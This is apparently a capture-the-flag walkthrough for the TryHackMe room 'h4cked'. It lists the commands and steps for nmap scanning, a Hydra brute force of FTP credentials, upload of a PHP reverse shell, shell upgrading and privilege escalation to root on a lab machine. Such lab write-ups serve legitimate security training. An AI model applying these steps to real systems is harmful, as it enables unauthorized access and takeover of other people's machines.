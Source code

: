 # THM-h4cked-Task-2

https://tryhackme.com/room/h4cked



Use nmap to scan for open ports: sudo nmap  -Pn 10.10.154.211

	PORT   STATE SERVICE

	21/tcp open  ftp

	80/tcp open  http

Use Hydra to bruteforce the FTP login: hydra -l jenny -P /usr/share/wordlists/rockyou.txt  ftp://10.10.154.211 -t 4

Login to the ftp server with user and password

Get both files to your local machine

Edit the rever shell php scrip with your own ip 

Upload the new reverse shell script via put and change its permission: chmod 777

Start a netcat listner with the choosen port

Head to the web browser and excute the php scrip: http://machine-ip/scripname.php

Use the python script to gain a shell: python3 -c 'import pty; pty.spawn("/bin/bash")'

change user to jenny : su jenny

sudo su to become root

cd to the Reptile folder to get the flag











